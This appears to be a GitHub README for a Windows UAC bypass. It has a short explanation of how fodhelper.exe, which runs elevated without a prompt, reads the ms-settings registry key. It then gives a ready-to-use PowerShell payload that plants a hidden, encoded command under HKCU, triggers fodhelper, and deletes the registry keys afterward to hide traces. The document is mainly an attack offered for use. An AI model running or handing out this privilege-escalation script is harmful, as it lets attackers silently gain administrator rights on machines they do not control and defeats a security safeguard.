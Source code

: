 # Theory

> Unlock hidden doors with trust as your key

### Vulnerability

fodhelper.exe itself does not execute registry keys per se; However, it reads certain registry keys to determine its behavior. By misusing the "ms-settings" key, we can potentially get fodhelper to run values within a key

fodhelper.exe is designed to run with elevated privileges without prompting the user with a uac

### Raw Payload

<p></p>

```Powershell
$payload="powershell.exe -w h -NoP -NonI -Exec Bypass -enc $command"
reg add "HKCU\Software\Classes\.hacker\Shell\Open\command" /d $payload /f
reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".hacker" /f

fodhelper.exe

Start-Sleep -s 3
reg delete "HKCU\Software\Classes\.hacker\" /f
reg delete "HKCU\Software\Classes\ms-settings\" /f
```
